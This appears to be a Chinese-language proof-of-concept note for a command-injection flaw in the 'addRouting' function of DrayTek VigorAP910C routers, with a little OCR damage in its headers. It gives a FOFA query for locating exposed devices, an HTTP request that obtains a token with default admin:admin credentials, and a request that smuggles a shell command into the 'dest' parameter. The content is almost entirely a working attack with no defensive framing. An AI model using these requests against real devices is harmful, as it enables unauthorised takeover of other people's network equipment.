 ## draytek路由器addrouting命令执行漏洞

## fofa
```
header="realm="VigorAP910C"
```


## poc
```
获取token
GET /opmode.asp HTTP/1.1
Host:
Authorization: Basic YWRtaW46YWRtaW4=
Referer:{{Hostname}}  
ser-Agent: Mozilla/5.0 - |

执行命令
GET /goform/addRouting?AuthStr={{token}}&dest=||+echo+$(+{{rce}})%3b%23a HTTP/1.1
Host:
Authorization: Basic YWRtaW46YWRtaW4=  R
eferer:{{Hostname}}
User-Agent: Mozilla/5.0
```
